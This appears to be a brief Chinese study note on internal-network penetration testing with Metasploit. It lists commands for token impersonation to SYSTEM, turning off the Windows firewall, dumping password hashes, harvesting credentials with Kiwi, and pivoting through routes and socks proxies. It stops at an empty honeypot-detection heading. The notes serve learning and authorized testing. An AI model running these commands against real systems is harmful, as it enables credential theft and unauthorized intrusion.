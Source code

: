 ```yaml
---
title: 内网渗透学习笔记
tags:
  - 内网渗透
  - msf
abbrlink: 44485
date: 2022-05-12 20:45:45
---
```


map 192.168.44.133 --script vuln

## 令牌窃取提权

~~~~meterpreter
meterpreter > load incognito //加载incognito
meterpreter > getuid //查看当前token
meterpreter > list_tokens -u //列出可用token
meterpreter > impersonate_token "NT AUTHORITY\\SYSTEM" //token窃取，格式为impersonate_token"主机名\\用户名"
meterpreter > getuid //查看当前token
meterpreter > rev2self //返回之前的token
~~~~

**关闭防火墙** 

netsh advfirewall set allprofiles state off

**1.导出hash**

~~~~
run hashdump 
run windows/gather/smart_hashdump
~~~~

**2：加载 kiwi模块**

~~~~
load kiwi
creds_all
~~~~

**3.内网漫游**

MSF搭建socks代理

· 添加路由的目的是为了让我们的MSF其他模块能访问内网的其他主机

· 添加socks4a代理的目的是为了让其他软件更方便的访问到内网的其他主机的服务

注：添加路由一定要在挂代理之前，因为代理需要用到路由功能

- **route add 0.0.0.0 0.0.0.0 sessions_id**

- route pint

- 添加socks代理

## 判断蜜罐

